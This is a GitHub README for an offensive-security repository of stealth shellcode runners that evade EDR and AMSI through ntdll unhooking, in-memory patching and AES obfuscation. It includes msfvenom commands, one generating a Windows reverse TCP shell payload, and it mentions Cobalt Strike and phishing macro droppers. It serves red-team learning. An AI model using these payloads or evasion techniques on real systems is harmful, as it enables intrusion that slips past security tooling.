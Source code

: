 # Stealth shellcode runners :wolf:
## EDR evasion via ntdll unhooking (userland), AMSI bypass via in memory patch, and obfuscation via AES encryption.

### This repo was started as a place to host a xml shellcode generating tool written as part of a [blog post](https://github.com/kymb0/kymb0.github.io/blob/master/_posts/2021-05-07-defeat-edr-unhook.md) on EDR evasion via ntdll unhooking (userland), AMSI bypass via in memory patch, and obfuscation via AES encryption.

I started writing these tools as a way to both challenge myself and expand upon my knowledge within the esoteric world of AV/EDR evasion.
Currently tested again 1 x enterprise grade EDR solution, however I expect that this technique will be patched soon.

## :eight_spoked_asterisk: stealth_xml_shellcode_runner.py: 
Requires: `python3, pycryptodome`  
Usage: `script.py payload.bin`  
Example payloads: `msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin`  
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > shell.bin`

For Cobalt Strike you will need to use a custom profile, and using the payload generator seems to work best, rather than selecting Windows Executable from packages.

If anyone wants to build their own tools/malware in C#, there are many fantastic resources out there, however I also included some c# templates that you can reference.

### To do:
[:gem:] Build option to generate payload for `C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe`  
[:gem:] Build option to generate macros for use with phishing droppers  
[:gem:] Add options for different obfuscation and evasion techniques e.g. explore Halo's gate implementation  

I keep my notes on malware dev [here](https://github.com/kymb0/Malware_learns)

Follow me on [twitter](https://twitter.com/kymb0_irl) if you want.
